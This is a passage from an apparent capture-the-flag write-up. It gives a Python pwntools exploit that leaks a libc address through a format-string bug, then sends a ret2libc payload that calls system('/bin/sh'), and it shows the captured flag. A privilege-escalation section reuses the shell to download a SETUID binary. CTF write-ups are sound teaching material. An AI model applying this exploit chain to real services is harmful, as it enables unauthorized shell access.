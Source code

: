 ```python

    return r

# libc6-i386_2.28-10_amd64
libc_config = {
    'io_2_1_stdin': 0x001da5c0,
    'system': 0x0003e9e0,
    'str_bin_sh': 0x17eaaa,
}

def main():
    r = conn()

    r.recvuntil(': ')
    r.sendline(b'%2$p-')
    greeting = r.recvuntil(': ')
    leaked_io_2_1_stdin = int(greeting.split(b'-')[0].split(b' ')[-1].decode(), 16)
    libc_address = leaked_io_2_1_stdin - libc_config['io_2_1_stdin']

    sys = p32(libc_address + libc_config['system'])
    sh = p32(libc_address + libc_config['str_bin_sh'])
    r.sendline(flat({49: sys + p32(0xcafebabe) + sh}))

    r.interactive()

if __name__ == "__main__":
    main()
```

The flag was in `/home/ctf/flag.txt`: `CYBERTF{l3@ks_I5_Us3Fu11}`.

## Level 2: PrivEsc

Looking in `/bin` again, we find a `readline` SETUID binary. I used the same snippet to download the file:

```python
def main():
    r = conn()

    r.recvuntil(': ')
    r.sendline(b'%2$p-')
    greeting = r.recvuntil(': ')
    leaked_io_2_1_stdin = int(greeting.split(b'-')[0].split(b' ')[-1].decode(), 16)
    libc_address = leaked_io_2_1_stdin - libc_config['io_2_1_stdin']

    sys = p32(libc_address + libc_config['system'])
    sh = p32(libc_address + libc_config['str_bin_sh'])
    r.sendline(flat({49: sys + p32(0xcafebabe) + sh}))

    with open('readline', 'wb') as f:
        r.sendline('cat /bin/readline')
        r.sendline('exit')
        f.write(r.recvall())
```
